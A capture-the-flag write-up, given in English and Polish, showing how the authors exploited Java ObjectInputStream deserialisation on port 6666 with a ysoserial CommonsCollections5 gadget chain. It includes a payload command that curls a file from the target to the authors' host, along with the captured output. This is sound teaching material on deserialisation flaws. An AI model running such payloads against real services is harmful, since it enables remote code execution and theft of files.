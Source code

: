 ## Akashic Records (Pwn, 200p)

###ENG
[PL](#pl-version)

In the task we get a simple Java application to analyse.
Most of the application is dedicated to setting up a REST api, however there is an interesting class:

```java
// Debug

package com.supersecure.rest;

import com.supersecure.control.IMainControl;
import com.supersecure.control.impl.MainControl;
import com.supersecure.model.IBook;
import com.supersecure.model.impl.Book;
import org.apache.commons.collections.list.TreeList;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.net.ServerSocket;
import java.net.Socket;

public class BookAdd implements Runnable {
    private ServerSocket serverSocket = null;
    private IMainControl mainControl = null;
    // for evaluation purpose
    private final TreeList exceptionList = new TreeList();

    private void startSocket() {
        if (serverSocket != null) {
            try {
                if (!serverSocket.isClosed()) {
                    serverSocket.close();
                }
            } catch (IOException e) {
                exceptionList.add(e);
                e.printStackTrace();
            }
            serverSocket = null;
        }
        try {
            serverSocket = new ServerSocket(6666);
            if (mainControl == null) {
                mainControl = new MainControl();
            }
        } catch (IOException e) {
            exceptionList.add(e);
            e.printStackTrace();
        }
    }

    @Override
    public void run() {
        startSocket();
        while (true) {
            try {
                Socket socket = serverSocket.accept();
                (new Thread(() -> {
                    ObjectInputStream inputStream = null;
                    try {
                        inputStream = new ObjectInputStream(socket.getInputStream());
                        IBook book = (Book) inputStream.readObject();
                        mainControl.addBook(book);
                    } catch (IOException | ClassNotFoundException e) {
                        exceptionList.add(e);
                        e.printStackTrace();
                    }

                })).start();
            } catch (IOException e) {
                exceptionList.add(e);
                e.printStackTrace();
                startSocket();
            }
        }
    }
}

```

As can be seen this class exposes a raw socket connection and accepts serialized Java objects to deserialize.
Deserialization of payloads from untrusted sources is a very common vulnerability, since most deserializers provide an option to run code in order to set values for transient fields.
It is the case for python pickle, for java XMLDecoder and it is also for ObjectInputStream.

In this case there are a few known common libraries that contain classes which can be used to invoke a shell command during deserialization.
In our example in the pom.xml we could see:

```
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

Which is one of the libraries with gadget chain we need.
There is a github project with paylad generator so we used it: https://github.com/frohoff/ysoserial
Generating a payload with 

`java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 "curl ourhost.net:6666 -T /tmp/weirdFilename" > payload`

And then sending the generated payload to the endpoint provided in the task.
As a result we got:

```
Connection from [139.59.135.121] port 6666 [tcp/*] accepted (family 2, sport 56867)
PUT /weirdFilename HTTP/1.1
User-Agent: curl/7.38.0
Host: ourhost.net:6666
Accept: */*
Content-Length: 45
Expect: 100-continue

flag{i_foresee_An_Ap0k4lypse_f0r_21_09_2036}
```

###PL version

W zadaniu dostajemy prostą aplikacje Javową do analizy.
Większość aplikacji poświecona jest ustawieniu api RESTowego, jednak jest tam jedna interesująca klasa:

```java
// Debug

package com.supersecure.rest;

import com.supersecure.control.IMainControl;
import com.supersecure.control.impl.MainControl;
import com.supersecure.model.IBook;
import com.supersecure.model.impl.Book;
import org.apache.commons.collections.list.TreeList;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.net.ServerSocket;
import java.net.Socket;

public class BookAdd implements Runnable {
    private ServerSocket serverSocket = null;
    private IMainControl mainControl = null;
    // for evaluation purpose
    private final TreeList exceptionList = new TreeList();

    private void startSocket() {
        if (serverSocket != null) {
            try {
                if (!serverSocket.isClosed()) {
                    serverSocket.close();
                }
            } catch (IOException e) {
                exceptionList.add(e);
                e.printStackTrace();
            }
            serverSocket = null;
        }
        try {
            serverSocket = new ServerSocket(6666);
            if (mainControl == null) {
                mainControl = new MainControl();
            }
        } catch (IOException e) {
            exceptionList.add(e);
            e.printStackTrace();
        }
    }

    @Override
    public void run() {
        startSocket();
        while (true) {
            try {
                Socket socket = serverSocket.accept();
                (new Thread(() -> {
                    ObjectInputStream inputStream = null;
                    try {
                        inputStream = new ObjectInputStream(socket.getInputStream());
                        IBook book = (Book) inputStream.readObject();
                        mainControl.addBook(book);
                    } catch (IOException | ClassNotFoundException e) {
                        exceptionList.add(e);
                        e.printStackTrace();
                    }

                })).start();
            } catch (IOException e) {
                exceptionList.add(e);
                e.printStackTrace();
                startSocket();
            }
        }
    }
}

```

Jak widać klasa wystawia surowy socket który przyjmuje serializowane obiekty Javy i próbuje je deserializować.
Deserializacja danych pochodzących z niezaufanych źródeł to dość znana podatność, szczególnie że większość deserializerów umożliwia wykonanie kodu, aby ustawić wartości pól transient.
Tak jest w przypadku pythonowego pickle, javowego XMLDecoder i tak samo jest i dla ObjectInputStream.

W tym przypadku istnieje kilka popularnych bibliotek, zawierających klasy, które można wykorzystać do wywołania kodu na zdalnej maszynie podczas deserializacji.
W naszym przykładzie w pom.xml widzimy:

```
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
```

Które jest jedną z bibliotek zawierajacych interesujący nas gadget chain.
Istnieje projekt na githubie z gotowym generatorem payloadów więc użyjemy go: https://github.com/frohoff/ysoserial
Generujemy payload przez:

`java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 "curl ourhost.net:6666 -T /tmp/weirdFilename" > payload`

I wysyłamy go do endpointa podanego w zadaniu.
W efekcie dostajemy:

```
Connection from [139.59.135.121] port 6666 [tcp/*] accepted (family 2, sport 56867)
PUT /weirdFilename HTTP/1.1
User-Agent: curl/7.38.0
Host: ourhost.net:6666
Accept: */*
Content-Length: 45
Expect: 100-continue

flag{i_foresee_An_Ap0k4lypse_f0r_21_09_2036}
```